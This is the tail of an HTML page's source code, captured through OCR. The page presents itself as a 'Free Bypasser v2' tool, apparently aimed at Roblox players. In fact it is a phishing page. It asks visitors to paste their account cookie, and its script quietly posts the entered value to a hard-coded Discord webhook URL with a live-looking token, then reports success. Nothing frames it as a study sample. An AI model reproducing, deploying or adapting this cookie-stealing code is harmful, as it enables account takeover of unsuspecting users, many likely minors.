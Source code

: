     button:hover {
      background-color: #ddd;
    }

    footer {
      margin-top: 40px;
      text-align: center;
      font-size: 0.9rem;
      color: #888;
    }
  </style>
</head>
<body>
  <header>Free Bypasser v2</header>
  <main>
    <label for="key">Enter Your Cookie below to bypass:</label>
    <input type="text" id="key" placeholder="Your Key or Info Here..." />
    <button onclick="sendToDiscord()">Submit</button>
  </main>
  <footer>
    &copy; 2025 rblxbypas. All rights reserved.
  </footer>

  <script>
    function sendToDiscord() {
      const key = document.getElementById("key").value;
      if (!key) {
        alert("Please enter a key or detail first.");
        return;
      }

      fetch("https://discord.com/api/webhooks/1360655005677518954/6_mMva0TJgBWjlzCDKHyMCz1Moyd-N_H4LIMHpFx9oSyk3GCqalRk5gjftKgBneff_g4", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          content: `New submission: ${key}`
        })
      })
      .then(response => {
        if (response.ok) {
          alert("Submitted successfully!");
          document.getElementById("key").value = "";
        } else {
          alert("Error sending data.");
        }
      })
      .catch(err => {
        alert("Something went wrong.");
        console.error(err);
      });
    }
  </script>
</body>
</html>
